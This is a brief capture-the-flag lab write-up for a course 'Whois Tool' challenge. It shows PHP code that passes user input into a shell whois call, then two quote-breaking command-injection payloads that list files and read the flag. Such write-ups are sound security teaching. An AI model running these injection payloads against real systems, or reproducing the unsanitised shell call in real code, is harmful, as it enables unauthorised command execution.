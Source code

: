 ```yaml
---
title: Simple Web - 0x02(Lab - Whois Tool)
tags: [CTF, Web, eductf]

category: "Security/Course/NTU CS/Web"
---
```


# Simple Web - 0x02(Lab - Whois Tool)
<!-- more -->
###### tags: `CTF` `Web` `eductf`
Challenge: https://whoistool.ctf.zoolab.org/

## Background
Almost the same as [0x10(Lab - DNS Lookup Tool | WAF)](/7x0Gr0C_QEahfS_QaTLYTg)

## Source Code
```php=
<?php
if(isset($_GET["host"])){
  $host = $_GET["host"];
  if(strlen($host) > 15)
    echo "Host name tooooooo logn!!";
  else
    echo `whois "{$host}" 2>&1;`;
}
?>
```

## Exploit
Payload: `";ls -al;"`
![](https://i.imgur.com/MsG3wOH.png)
Payload: `";cat flag.t*;"`
Then we got flag!!!